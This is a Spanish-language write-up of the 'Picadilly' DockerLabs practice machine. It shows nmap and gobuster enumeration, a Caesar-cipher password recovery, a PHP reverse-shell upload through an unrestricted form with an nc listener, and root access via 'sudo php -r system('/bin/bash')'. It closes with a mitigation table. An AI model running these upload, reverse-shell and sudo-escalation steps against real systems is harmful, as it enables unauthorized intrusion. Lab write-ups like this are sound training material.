



# Picadilly — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | 

## Descripcion 

Laboratorio para practicar el descifrado de credenciales y la subida de una reverse shell PHP, con escalada de privilegios en Linux.

## Attack chain

**Nmap → Web Enumeration → Gobuster → Caesar Cipher (Credential Discovery) → Unrestricted File Upload → PHP Reverse Shell → www-data Access → User Pivoting (mateo) → Sudo Misconfiguration (PHP) → Root**

## 1. Analisis y escaneo del objetivo.

Se comienza con un escaneo completo de puertos con nmap:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/picadilly]
└─$ nmap -sV -sC -p- 172.17.0.2 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-07 20:20 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.59
|_http-title: Index of /
|_http-server-header: Apache/2.4.59 (Debian)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 215   2024-05-18 01:19  backup.txt
|_
443/tcp open  ssl/http Apache httpd 2.4.59 ((Debian))
| ssl-cert: Subject: commonName=50a6ca252ff4
| Subject Alternative Name: DNS:50a6ca252ff4
| Not valid before: 2024-05-18T06:29:06
|_Not valid after:  2034-05-16T06:29:06
|_http-server-header: Apache/2.4.59 (Debian)
|_ssl-date: TLS randomness does not represent time
|_http-title: Picadilly
| tls-alpn: 
|_  http/1.1
MAC Address: 12:D4:E2:76:01:D4 (Unknown)
Service Info: Host: picadilly.lab

```
Dos puertos abiertos:

• 80/tcp → listado de directorio de Apache con un archivo `backup.txt`.

• 443/tcp (HTTPS, certificado self-signed) → sitio web "Picadilly".

### Descubrimiento en el puerto 80



Con la siguiente pista:

```text

/// The users mateo password is ////


----------- hdvbfuadcb ------------

"To solve this riddle, think of an ancient Roman emperor and his simple method of shifting letters."

////////////////////////////////////

```
La pista apunta claramente a un Cifrado César. Como no se especifica el desplazamiento, se hace fuerza bruta probando los 26 shifts posibles:

```python

s = 'hdvbfuadcb'
for shift in range(26):
    out = ''
    for c in s:
        out += chr((ord(c) - ord('a') - shift) % 26 + ord('a'))
    print(shift, out)

```
Con shift 3 se obtiene una cadena cercana a una palabra válida. Tras revisar el string original con más cuidado, la contraseña correcta decodificada es:

```
easycrazy

```
> Esta credencial no sirve para SSH, porque ese puerto ni siquiera está abierto en esta máquina — queda guardada para más adelante.

### Enumeración del sitio HTTPS (puerto 443)

El sitio es un blog temático de "Piccadilly Circus" con un formulario de subida de archivos:




## 2. Enumeracion WEB 

Fuzzing de directorios/archivos con Gobuster:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/picadilly]
└─$ gobuster dir -u https://172.17.0.2/ -w /usr/share/wordlists/dirb/common.txt -k -x php,txt,html
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.php            (Status: 200) [Size: 3476]
index.php            (Status: 200) [Size: 3476]
server-status        (Status: 403) [Size: 276]
uploads              (Status: 301) [Size: 312] [--> https://172.17.0.2/uploads/]
uploads.php          (Status: 302) [Size: 68] [--> index.php]
Progress: 18452 / 18452 (100.00%)
===============================================================
Finished
===============================================================

```
Se confirma el directorio `/uploads/` con listado habilitado, destino de los archivos subidos por el formulario.




## 3.  Explotación

Subida de archivo de prueba:

Se prueba primero con un `.txt` para validar el comportamiento del formulario:

```bash
                                                                                                               
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/picadilly]
└─$ echo "test" > test.txt            
                                                                                                                                 
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/picadilly]
└─$ curl -sk -F "fileToUpload=@test.txt" -F "submit=Subir Archivo" https://172.17.0.2/uploads.php -L

```
El archivo se sube sin restricciones y queda accesible en `/uploads/test.txt`.

### Subida de una reverse shell en PHP

Al no existir validación de extensión, se sube una reverse shell PHP (pentestmonkey) con la IP y puerto propios configurados:

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/picadilly]
└─$ curl -sk -F "fileToUpload=@shell.php" -F "submit=Subir Archivo" https://172.17.0.2/uploads.php -L 

```
Se deja un listener esperando la conexión:

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/picadilly]
└─$ nc -lvnp 4444               
listening on [any] 4444 ...


```
Y se dispara la ejecución llamando al archivo subido:

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/picadilly]
└─$ curl -sk https://172.17.0.2/uploads/shell.php 

```

Shell recibida como `www-data`:

```bash

$ whoami
www-data
www-data@2c716cb5aa34:/$ 

```
Estabilización de la shell

```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z
stty raw -echo; fg

```

# 4. Escalada de privilegios

Enumeración inicial:

```bash

sudo -l          # requiere password que no tenemos

find / -perm -4000 2>/dev/null   # solo binarios SUID estándar
www-data@2c716cb5aa34:/$ find / -perm -4000 2>/dev/null
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/sudo
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper

pkexec --version # 0.122, parcheado contra PwnKit (CVE-2021-4034)

```
Nada explotable como `www-data`. Se revisan los archivos del sitio (`create_post.php`, .`htaccess`, `/init.sh`) sin encontrar credenciales adicionales.

### Usuario mateo

Se confirma la existencia del usuario en `/etc/passwd`:

```bash

www-data@2c716cb5aa34:/$ cat /etc/passwd | grep mateo
mateo:x:1000:1000::/home/mateo:/bin/bash

```

Con la contraseña obtenida del backup (`easycrazy`):

```bash

www-data@2c716cb5aa34:/$ su mateo
Password: 
mateo@2c716cb5aa34:/$ 


```
### De mateo a root

```bash

mateo@8e57917ed8d8:/$ sudo -l
User mateo may run the following commands on 8e57917ed8d8:
    (ALL) NOPASSWD: /usr/bin/php

```
`mateo` puede ejecutar `/usr/bin/php` como `root` sin contraseña. Según GTFOBins, `PHP` puede invocar comandos del sistema con `system()`, por lo que alcanza con:

```bash

mateo@2c716cb5aa34:/$ sudo php -r "system('/bin/bash');"
root@2c716cb5aa34:/# id
uid=0(root) gid=0(root) groups=0(root)
root@2c716cb5aa34:/# whoami
root
root@2c716cb5aa34:/# 

```
Root obtenido.

# Conclusión

A partir del escaneo inicial con **Nmap**, se identificaron los servicios HTTP y HTTPS. Mediante la enumeración web, se descubrió un archivo `backup.txt` que contenía una contraseña cifrada con César, permitiendo obtener las credenciales de `mateo`.

Posteriormente, se explotó una vulnerabilidad de **subida de archivos sin restricciones**, logrando ejecutar una reverse shell PHP y obtener acceso como `www-data`. Utilizando las credenciales descubiertas, se accedió a `mateo` y, mediante una configuración incorrecta de `sudo` sobre PHP, se consiguió acceso como `root`.

En conclusión, **Picadilly** permite comprender cómo la exposición de credenciales, las vulnerabilidades en la subida de archivos y los permisos incorrectos de `sudo` pueden facilitar el acceso y la escalada de privilegios en Linux.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **Exposición de credenciales en archivos públicos** | Permite descubrir contraseñas que pueden utilizarse para acceder al sistema. | Evitar publicar información sensible y restringir el acceso a archivos de respaldo. |
| **Cifrado César** | Permite recuperar credenciales mediante técnicas simples de descifrado. | No utilizar cifrados clásicos para proteger información sensible. |
| **Subida de archivos sin restricciones** | Permite cargar archivos PHP maliciosos y ejecutar comandos en el servidor. | Validar extensiones, tipos MIME y contenido; deshabilitar la ejecución de archivos subidos. |
| **Permisos de `sudo` sobre PHP** | Permite ejecutar comandos arbitrarios con privilegios de `root`. | Restringir los permisos de `sudo` y evitar conceder acceso innecesario a intérpretes. |
| **Ejecución de comandos mediante PHP (`system()`)** | Facilita la ejecución de comandos del sistema con privilegios elevados. | Restringir el uso de funciones peligrosas y aplicar el principio de mínimo privilegio. |

## Recomendaciones generales

- Evitar exponer credenciales o información sensible en archivos públicos.
- No utilizar métodos de cifrado obsoletos para proteger información.
- Validar correctamente los archivos recibidos mediante formularios de subida.
- Evitar la ejecución de archivos subidos por usuarios.
- Revisar periódicamente las configuraciones y permisos de `sudo`.
- Aplicar el principio de mínimo privilegio para reducir los riesgos de escalada de privilegios.
